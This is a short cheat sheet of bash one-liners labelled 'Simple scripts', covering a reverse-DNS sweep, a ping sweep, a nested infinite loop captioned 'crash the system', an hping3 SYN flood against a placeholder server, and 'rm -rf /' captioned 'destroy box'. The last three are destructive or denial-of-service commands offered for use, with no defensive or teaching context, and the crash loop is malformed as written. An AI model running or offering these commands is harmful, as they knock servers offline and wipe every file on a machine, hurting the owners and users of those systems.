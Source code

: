 # Simple scripts:

**Finding subdomains:**

```bash
for i in {1..255..1};do host 8.8.8.$i|grep -v not\ found;done
```
---

**decuct is ip up:**

```bash
for i in {1..255..1};do ping 192.168.43.$i|grep bytes;done
```
---

**crash the system:**

```bash
while true;do while true;do done;&;done
```
---

**Syn flood against server with hping3:**

```bash
hping3 -S --flood x.x.x.x -p 80
```
---

**destroy box , rm all files:**

```bash
rm -rf /
```
---

Thanks!

